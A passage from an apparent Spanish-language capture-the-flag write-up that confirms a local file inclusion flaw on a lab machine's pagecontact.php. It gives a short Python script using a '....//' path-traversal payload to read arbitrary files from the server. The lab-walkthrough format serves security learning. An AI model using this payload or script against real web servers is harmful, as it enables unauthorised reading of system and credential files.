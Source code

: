 Pobramos esto en la Web y funciona Tenemos <code class="language-plaintext highlighter-rouge">LFI</code>

![](/assets/img/developer/lfi.png)

Voy a crear un script simple en python para ir viendo los archivos que me interesan.
<div class="language-python highlighter-rouge contenedor">
<pre class="highlight">
<code><span class="c1">#!/usr/bin/python3
</span><span class="kn">import</span> <span class="nn">requests</span>
<span class="kn">import</span> <span class="nn">sys</span>

<span class="c1"># Variables
</span><span class="n">url_lfi</span> <span class="o">=</span> <span class="s2">'http://192.168.1.12/pagecontact.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//..../'</span>

<span class="k">def</span> <span class="nf">getFile</span><span class="p">():</span>
    <span class="n">file</span> <span class="o">=</span> <span class="n">sys</span><span class="o">.</span><span class="n">argv</span><span class="p">[</span><span class="mi">1</span><span class="p">]</span>
    <span class="n">main_url</span> <span class="o">=</span> <span class="n">url_lfi</span> <span class="o">+</span> <span class="n">file</span>
    <span class="n">r</span> <span class="o">=</span> <span class="n">requests</span><span class="o">.</span><span class="n">get</span><span class="p">(</span><span class="n">main_url</span><span class="p">)</span>
    <span class="nb">print</span><span class="p">(</span><span class="n">r</span><span class="o">.</span><span class="n">text</span><span class="p">)</span>

<span class="k">if</span> <span class="nb">__name__</span> <span class="o">==</span> <span class="s2">'__main__'</span><span class="p">:</span>
    <span class="n">getFile</span><span class="p">()</span>
</code></pre></div><br>

Ejecutamos el script y como <code class="language-plaintext highlighter-rouge">argumento</code> le pasamos el <code class="language-plaintext highlighter-rouge">archivo</code> que deseamos leer.
